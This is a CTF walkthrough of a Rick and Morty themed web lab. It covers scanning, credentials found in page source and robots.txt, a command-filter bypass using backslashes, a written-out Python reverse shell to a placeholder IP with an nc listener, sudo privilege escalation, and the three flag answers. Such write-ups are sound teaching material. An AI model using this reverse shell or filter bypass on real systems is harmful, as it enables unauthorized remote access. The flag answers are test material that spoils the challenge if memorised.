


# Pickle Rick

## Description

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:90:bd:02:7c:19:04:9b:88:47:00:0b:48:fc:21:d3 (RSA)
|   256 48:d8:20:88:96:e6:ca:70:f8:5a:91:91:75:92:2d:d4 (ECDSA)
|_  256 57:a3:e6:cf:57:59:86:95:7d:8c:d7:d9:21:38:b0:b5 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Getting Creds

Let's head to the web service, since we have no creds for the ssh service. The first thing I did, was taking a look at the source code and found a username in a comment in the bottom of the page:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ curl -s "http://$IP/" | tail   
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
~~~

Username: `R1ckRul3s`

Next I took a look at `/robots.txt` and found a string which I guess is a password:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ curl -s "http://$IP/robots.txt"
Wubbalubbadubdub
~~~

Password: `Wubbalubbadubdub`

## Getting a Shell

I used the creds I found (`R1ckRul3s:Wubbalubbadubdub`) to connect to the machine via ssh but they weren't valid. I guess there might be a login page or something. I ran `gobuster` on the webpage to find it. I also used `-x` switch to look for files with the specified extentions:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x php,zip,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.249.162/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php,zip
[+] Timeout:                 10s
===============================================================
2021/11/05 04:40:36 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.249.162/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]                    
/login.php            (Status: 200) [Size: 882]                                   
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17]                                    
/server-status        (Status: 403) [Size: 301]
~~~

Great! We found the login page. If you navigate to `portal.php` or `denied.php`, they both redirect you to `login.php`. It means we need to be logged in to be able to use those. Let's test our creds in `/login.php`.

Nice! We logged in using the creds. Now we face this page:

We can execute commands on the machine, but not everything. For example I tried to read the files using `cat`, but it is filtered. I tried some simple things and found out how the filter works. It checks if we are using some words, so if you put `\` in middle of a command, it will bypass the filter.

Example:

### Reverse Shell

Now that we can execute commands, we can execute a reverse shell. I used this python reverse shell:

~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Start a listener and then execute this python3 command.

Listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now add your IP to the reverse shell and then execute it. Btw, there is no filter for python3, so no need to use that method.

Now we have a shell. The first thing I did, was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Pickle_Rick]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.128] from (UNKNOWN) [10.10.249.162] 49654
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-249-162:/var/www/html$
~~~

## Ingredients

### What is the first ingredient Rick needs?

If you list the files in the active directory, you'll see a file named `Sup3rS3cretPickl3Ingred.txt` which contains our first ingredient:

~~~
www-data@ip-10-10-249-162:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-249-162:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
~~~

First ingredient: `mr. meeseek hair`

### Whats the second ingredient Rick needs?

Now let's head to `/home` to see the users on the machine. There is a user named `rick` and you can find the second ingredient in his home directory:

~~~
www-data@ip-10-10-249-162:/var/www/html$ cd /home
www-data@ip-10-10-249-162:/home$ ls
rick  ubuntu
www-data@ip-10-10-249-162:/home$ cd rick
www-data@ip-10-10-249-162:/home/rick$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
www-data@ip-10-10-249-162:/home/rick$ cat second\ ingredients
1 jerry tear
~~~

Second ingredient: `1 jerry tear`

### Whats the final ingredient Rick needs?

Now we need to gain root access in order to find the last ingredient. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@ip-10-10-249-162:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-249-162.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-249-162.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
~~~

As you can see, we can run all the commands with sudo and no password. we can simply run `sudo su` to go root:

~~~
www-data@ip-10-10-249-162:/home/rick$ sudo su
root@ip-10-10-249-162:/home/rick# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Great! We are root now. Let's head to `/root` to read the final ingredient:

~~~
root@ip-10-10-249-162:/home/rick# cd /root
root@ip-10-10-249-162:~# ls
3rd.txt  snap
root@ip-10-10-249-162:~# cat 3rd.txt
3rd ingredients: fleeb juice
~~~

Final ingredient: `fleeb juice`

# D0N3! ; )

Thanks to the creator.

Hope you had fun and learned something.

Have a g00d one! : )